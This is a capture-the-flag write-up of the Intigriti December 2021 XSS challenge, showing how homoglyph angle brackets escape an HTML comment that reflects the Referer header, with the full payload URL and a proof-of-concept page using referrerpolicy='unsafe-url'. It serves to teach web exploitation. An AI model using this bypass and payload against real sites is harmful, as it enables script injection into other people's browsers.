 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 16:09:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```


## Let's start

The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like ` <script>alert(document.domain)</script>` to understand where the starting point was.

```html

<h4 id="punchline">Result:  alert(document.domain) 
 <!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= &gt;script&lt;alert(document.domain)&gt;/script&lt;&open=on -->
</h4>

```

From the source, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ``` --><script>alert(document.domain)</script>``` we can escape from the comment and execute our xss payload, 
but there is a problem, as you can see from the screen  the characters ```<``` and ```>``` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server.
this is really important because we can use this type of characters to bypass the control on ```<``` and ```>```

Here you can find some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt


## Final Payload

To build the final payload I simply used Homoglyph characters regarding the `<` and the `>`, in this way I was able to close the html comment and escape in order to execute XSS.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

To be sure, I url encoded the whole payload.

https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5

Just to be clear, clicking the link will not execute the xss, but you will need to enter ``` --﹥﹤script﹥alert(document.domain)﹤/script﹥  ``` inside the input field ( we will see after how to not make this case a self-xss )

```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>

```


As you can see, I was able to get out of the Html comment, and execute my payload.


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html

<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>


```

The only interesting part is the `referrerpolicy="unsafe-url"` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5

